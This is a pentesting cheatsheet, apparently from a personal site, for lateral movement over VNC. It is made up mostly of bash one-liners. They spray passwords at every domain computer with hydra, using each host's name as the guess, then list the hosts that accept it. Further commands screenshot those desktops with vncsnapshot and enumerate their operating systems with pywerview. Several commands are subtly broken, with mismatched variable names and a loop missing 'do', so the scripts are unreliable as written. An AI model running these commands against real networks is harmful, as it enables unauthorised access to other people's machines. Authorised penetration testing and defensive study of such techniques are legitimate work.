 ```yaml
---
layout: post
title: TA0008 Lateral Movement - T1021 VNC
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-02-07
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: 
* [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)
* [T1021  - Remote Services](https://attack.mitre.org/techniques/T1021/)

**Menu**
<!-- vscode-markdown-toc -->
* [RUN Password Spraying](#RUNPasswordSpraying)
* [EDIT hydra return & LIST pwned machines](#EDIThydrareturnLISTpwnedmachines)
* [VALIDATE LIST + SCREENSHOT of pwned desktops](#VALIDATELISTSCREENSHOTofpwneddesktops)
* [STATS of pwned machines](#STATSofpwnedmachines)
* [FILE TRANSFER](#FILETRANSFER)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='RUNPasswordSpraying'></a>RUN Password Spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```

## <a name='EDIThydrareturnLISTpwnedmachines'></a>EDIT hydra return & LIST pwned machines 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

## <a name='VALIDATELISTSCREENSHOTofpwneddesktops'></a>VALIDATE LIST + SCREENSHOT of pwned desktops
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```

## <a name='STATSofpwnedmachines'></a>STATS of pwned machines
```bash
# get the cn computer (1 line) and its OS (1 line) 
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn operatingSystem >> pt_XXX_getcomputer_XXX_os.txt; done < pt_XXX_hydra_vnc_pwned.txt

# format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_os.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_os.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_os.txt
```

Run the playbook [pen_enum_computers_os_piechart](https://github.com/jomivz/jomivz.github.io/playbook/pen_enum_computers_os_piechart.ipynb) to generate the chart pie per operating system.

![computers per OS](/assets/images/playbook_piechart_computers_per_os.png)

## <a name='FILETRANSFER'></a>FILE TRANSFER

Tools to transfer files via VNC (works on Windows 10 only):

* [Invoke-Transfer](https://github.com/JoelGMSec/Invoke-Transfer)